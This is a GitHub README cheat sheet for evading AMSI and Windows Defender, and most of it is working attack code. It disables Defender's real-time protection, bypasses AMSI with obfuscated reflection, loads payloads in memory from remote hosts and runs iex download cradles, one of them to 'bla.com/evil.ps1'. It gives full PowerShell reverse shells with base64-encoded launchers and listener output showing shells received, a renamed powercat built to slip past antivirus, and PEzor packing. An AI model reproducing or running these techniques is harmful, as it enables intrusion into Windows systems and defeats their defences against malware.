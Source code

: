 #JustEvadeBro

![](Data-Security.gif)

JustEvadeBro, a cheat sheet which will aid you through AMSI evasion.

(Inspired by https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

Please be aware that some of these methods may not be good for OPSEC. I will add a OPSEC method to each section in the future.

Feel free to submit a Pull Request & leave a star to share some love if this helped you. 💖

Yes, we are open to Pull Requests for Hacktoberfest! Please ensure its not spam and actually contributes well to this repo. Thanks & happy hacking!

Credit Info: I have obtained a lot of this info through other Github repos, blogs, sites and more. I have tried to give as much credit to the original creator as possible, if I have not given you credit please contact me on Twitter: https://twitter.com/s1nfulz

# Obfuscation Tools:

- https://github.com/phra/PEzor
- https://github.com/CBHue/PyFuscation
- https://github.com/danielbohannon/Invoke-Obfuscation

# Step one of evading Defender

First try turning of Windows Defender:
```Set-MpPreference -DisableRealtimeMonitoring $true```

# Step two of evading Defender, evading AMSI

This will only work for `.ps1` files:
```
$a = [Ref].Assembly.GetType('System.Management.Automation.Am' + 'si' + 'Utils')
$a.GetField('am' + 'si' + 'Init' + 'Failed','NonPublic,Static').SetValue($null,$true)
```

Another AMSI evading method:
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]("{1}{0}"-F'F','rE' ) ) ;( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
```

# Misc things:

WebClient DownloadData http://x.x.x.x/file.exe method:

```
$bytes = (new-object net.webclient).downloaddata("http://10.10.16.74:8080/payload.exe")
[System.Reflection.Assembly]::Load($bytes)
$BindingFlags= [Reflection.BindingFlags] "NonPublic,Static"
$main = [Shell].getmethod("Main", $BindingFlags)
$main.Invoke($null, $null)
```

Reverse PowerShell:

```
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.5', 4445);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
        $writer.Write("PS> ");
        $writer.Flush();
        $read = $null;
        while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){}
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $read);
        $sendback = (iex $data 2>&1 | Out-String );
        $sendback2  = $sendback;
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
        $writer.Write($sendbyte,0,$sendbyte.Length);
}While ($true);
$writer.close();$socket.close();
```
Tools that may help with AV Evasion: 
- https://github.com/phra/PEzor
- https://github.com/bats3c/darkarmour
- https://github.com/loadenmb/tvasion

# AMSI.Fail

```https://amsi-fail.azurewebsites.net/api/Generate```

```https://amsi-fail.azurewebsites.net/api/GenerateEnc```

```
iex(new-object net.webclient).downloadstring('https://amsi-fail.azurewebsites.net/api/Generate')
iex(new-object net.webclient).downloadstring('https://bla.com/evil.ps1')
```

# Encoding to bypass:

`cat rev.ps1`

```
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.2', 4444);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
        $writer.Write("PS $(pwd)> ");
        $writer.Flush();
        $read = $null;
        while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){}
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $read);
        $sendback = (iex $data 2>&1 | Out-String );
        $sendback2  = $sendback;
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
        $writer.Write($sendbyte,0,$sendbyte.Length);
}While ($true);
$writer.close();$socket.close();
```


`echo -n "iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10/rev.ps1')" | iconv -t 
utf-16le | base64 -w0`
```
aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAvAHIAZQB2AC4AcABzADEAJwApAA==
```

`
./exploit.sh -c 'cmd.exe /c powershell -enc aQBlAHgAIAAoAE4AZwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAvAHIAZQB2AC4AcABzADEAJwApAA=='
`

```
 python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.10 - - [04/Oct/2020 14:15:10] "GET /rev.ps1 HTTP/1.1" 200 -
```

```
rlwrap nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.10 63157
PS C:\Windows\System32> 
```

# Turning Powercat into Papacat!

```
sed -i s/powercat/papacat/g powercat.ps1
mv powercat papacat.ps1
vim papacat.ps1
```
Ensure you add `papacat -c 10.10.10.10 -e cmd.exe -p 4444` at the end of papcat

`echo -n 'iex (New-Object Net.WebClient).DownloadString("http://10.10.10.10/papacat.ps1")' | iconv -t utf-16le | base64 -w0`

```
aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0
```

```
./exploit.sh -c 'powershell -enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAvAHAAYQBwAGEAYwBhAHQALgBwAHMAMQAiACkA'
```

```
rlwrap nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.10.10.10 14134
Microsoft Windows [Version 10.0.18363.900]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```
# Papacatv2
Taken from: https://www.ired.team/offensive-security/defense-evasion/bypassing-ids-signatures-with-simple-reverse-shells
```powershell
PS C:\users\User\Desktop> papacat -l -p 443 -v
VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)
```
Extra features I performed to ensure (basic) AV evasion is done right:
- renamed every mention of 'powercat' to 'papacat' in the file
- renamed the file from 'powercat.ps1' to 'papacat.ps1'
- removed the help output from '$Help'

These steps may not be necessary to evade AV. 

Note: This is not a fully undetected bypass. As of 24/11/2021 @ 9:35 AM this works against Windows Defender (Security intelligence version 1.353.1502.0), but may not work against other AV. For detections see the links below:
- https://www.virustotal.com/gui/file/8b69e249de782f1a0a082641eade27166fcbaea55fed73576ddd205c5c998e36?nocache=1
- https://virusscan.jotti.org/en-US/filescanjob/m807xvtcky

# PEzor!
```
git clone https://github.com/phra/PEzor.git
cd PEzor
sudo bash install.sh
bash PEzor.sh -h
export PATH=$PATH:~/go/bin/:/opt/<location of PEzor>/PEzor:/opt/redteaming/PEzor/deps/donut_v0.9.3/:/opt/redteaming/PEzor/deps/wclang/_prefix_PEzor_/bin/
bash PEzor.sh -unhook -antidebug -text -self -sleep=120 binary.exe -z 2
```
